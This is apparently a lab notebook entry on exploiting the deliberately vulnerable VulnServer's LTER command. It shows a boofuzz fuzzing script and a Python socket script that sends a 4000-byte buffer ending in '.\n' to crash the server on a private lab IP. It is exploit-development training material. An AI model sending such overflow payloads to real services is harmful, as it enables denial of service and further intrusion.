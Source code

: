 # VulnServer LTER Notes

We begin this exercise by loading VulnServer.exe onto our Windows XP machine.
This program listens for connections on port TCP/9999 and responds to commands
like "STATS", "KSTET", and "SRUN".  We will be testing the "LTER" command.  

## Fuzz
We first build a quick Python script to fuzz the application.  It looks like
this: 
```
#!/usr/bin/env python

from boofuzz import *

def main():
    c = SocketConnection("192.168.186.135", 9999, proto='tcp')
    t = Target(connection = c)
    s = Session(target=t)

    s_initialize(name="Request")

    with s_block("UA-Line"):
        s_string("LTER", fuzzable=False)
        s_delim(" ", fuzzable=False, name='space-4')
        s_string("test", name='lter-value')
        s_static("\r\n", "Request-CRLF")

    s.connect(s_get("Request"))

    s.fuzz()

if __name__ == "__main__":
    main()
```

We notice almost immediately that it crashes on the following input:
```
LTER /.:/$(python -c "print('A' * 4000)")..
```

Interestingly, the '../', or at least a '.', at the end of the string appears 
to be required to trigger the crash.  Digging deeper, we discover that a '.'
followed by a line feed is all that is required to crash
the server:
```
#!/usr/bin/env python

import socket

message  = "LTER "
message += 'A' * 4000
message += ".\n"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.186.135", 9999))

s.send(message)
```
